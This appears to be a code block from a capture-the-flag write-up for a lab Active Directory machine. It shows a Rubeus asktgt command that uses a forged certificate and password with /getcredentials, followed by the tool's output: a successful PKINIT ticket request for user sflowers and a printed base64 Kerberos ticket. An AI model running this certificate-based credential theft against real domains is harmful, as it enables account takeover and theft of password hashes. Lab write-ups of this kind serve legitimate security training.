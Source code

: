 ```null
dLgAVB4yx/X9DiAiaprEVTHYg0GvVx0o6fkhzxoltQ3cVckdLEqSMtnABk3LbxCk68K8yWb8lLZq+9NQcUiMvDplDENVOhkuA8qk5SOBWuIsHZojVkt4RE1B5EorseE4RrEwZ6B7RfymvbwDYc59VhXy/vErCsAoka2zdH00zG6d/9nAYhMf/PtvAjxNC/RrB6gDnAQ5qoi9gmSN9
2OHYDvXWRVoaRsCVc4fhAl9dg/5tSZQoiP2w83GMZieI/igLXGjP7i5G1lEe2fsIAhrCs31bC9Kf561lNwPFKuE/OMb4DdkktWUoCfJx//WCHNabo3cC+zPDjZhktnlRLvYEbfJ34GNqf7jreYii1YnPCGcwYZ5RglMtsl/ZP4tVx28zn4Gd8VMet/NQc91xMypYcL1FX2K/tIzMZ
28OlvreBy+P6z8MzMBYCSRyxQAuXCBtQc8YlCetTmV7b/7nNkd794ePQhRqSf1FDU7A/T5EgerxBEh6sS9ceguhISfbV5kAlshFGvpX6CqT5EyLbpZn3Gd0jsH0x8Jp9fAY1px4yPvIChz3uucA9lk6IHXilwBetSXqPkVDA7MB8wBwYFKw4DAhoEFPkrB6ntGJfAi/a1bYFK81iY
A0reBBTdtrNjySiJi3pk0oLO7U+BaY5Z0AICB9A= /password:"LyqIj3z2DRpHGRAT" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/ 

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRio4IEnzCCBJugAwIBEqEDAgECooIEjQSCBImGkaD/
      JILu4F0TNoMIQSU71OIhcHzxg6e4DpVcmExZrsh/VON7HJyA4ZcocYA3F4vlJEX/w6nerLAV05pxozFf
      XzyxSg7+9yVAlMPhlD67MZmuC7cV8Ea0MjCuGFDg61Z4c57xyI1l2nfggSnV5lmkeV66ek1egd0t3bRn
      WQttMMekre470MYfenA+qvDSThd1xg4AoGwVOnYEng0iLqDV6JQnzeE0UAW+AGo+l26U03R+LX6nY3ho
      jK9cA/g3Mnvcj2rgcBzoAWE8UAyApOiNseekJFIwctH8TOvG8+ywmKQk5tJLHO+cS4fi2W9kaJqs0gsg
      0o3xaUW4WyFtFD/ghDCqO8ypIhjaX4ZEGVVD2u3prri7xwBH8avxsxpkZM1xF4Bpf17FBWyuD7NOFreL
      QCGSA+MJHsg0rLZQnpYTNzcAug8c7bkpgbB4CDyNwZsiwoFgbwYfc89EK0AODCVS20GEHO8JXqQyi7Jb
      uIXMkjDXTuGM31ATYJB6KQhJen36C94NfGkjv8hvBZzYlziztWORJtIRLpFGhCbKax0FCHWlfdjSis+M
      2xAsMOZwqtNBaOf5AiVtRcn7P2oiVWuiOfwCymQJODmvLjffF7uDUYHcmGauiZhjoqlDxnsdKzMgUkM4
      0ov6Vg4heFaM6E9uULhamSCxlouxboTiUDXO+an0NmeogH3mQulOOly3jqzO+wW6DMH1S6dx36TpVy5q
      CsqiVTOjEmQzVzjx1wcB+cLr8C+LJeiCJJEORxp7kR0LH7WPUKsYBtXfggL2qkncZ9GUNxsAwE9bSK4g
      5OjLxmVV3sBiD9Hpf4wyALmrBghYFsVwyOePGyWhA+DduM+8sqyLve1OAi8aelojlfn+uax25EAY/of7
      Z39JqsTrAMdGESOKWvJwWgFM3D/p/oLkO5PjlUPXjuUgXgcPng9FUxJ5qTbm5VJyMGDvyKzUrDyn3Zav
      i1mxqwn1scRnKLjUDBUNc3KhDPqQwknDcNZn6BJIhRRkbd40YopwGJlIhB8Y9zO2EY+UnfBy8pIT3Ej6
      XYexyGR1HalvQMaHLzmtbbpzWKfhCuCVs85/vaEvh6fAqzMzFvEES8jQlV4jPoA2xqRgh2LRUfNWCsir
      y3WNyFn4Uq14+qnEAnvITZjhrCqu2K6ycoKtmOLAka59sFpb/+rCaLeM8FONM+FGMP7LuRArdq8CcWQv
      lHKUDwDkup9nYg/66DWceLKPx7913ChQQNk32kgjYu735e1q2UlPf79hY9yIFeDnVoHnlt9fzsjmAE4T
      NTdVJniiVCTaytpfH2DSm5269YMFW/pbxAYhgmZbtHHNzIdP8Cfy6mbdRmF24QFozSTZ32bwRt9odrXq
      4kD4R4MybkASDagW9R7L1pW5grw+LTsdck8b5mF58NSdPL1dz/E3PIvSpr99lCcXMpF2mcvyNftPBcCQ
      BkKCT0VVzExoEdCvrcApXnDlPaQ1MBzDl7zQAHfpavys1gKuko0N9Z6jrdRni7borIg646h94orzaAYk
      GXyhAPgnwNv5SCO3e3bpDoGjgdYwgdOgAwIBAKKBywSByH2BxTCBwqCBvzCBvDCBuaAbMBmgAwIBF6ES
      BBDzL0tnjSpKdVuEN9btKwh0oQ4bDE9VVERBVEVELkhUQqIVMBOgAwIBAaEMMAobCHNmbG93ZXJzowcD
      BQBA4QAApREYDzIwMjMwMTE4MDAwOTEwWqYRGA8yMDIzMDExODEwMDkxMFqnERgPMjAyMzAxMjUwMDA5
      MTBaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  1/17/2023 4:09:10 PM
  EndTime                  :  1/18/2023 2:09:10 AM
  RenewTill                :  1/24/2023 4:09:10 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
```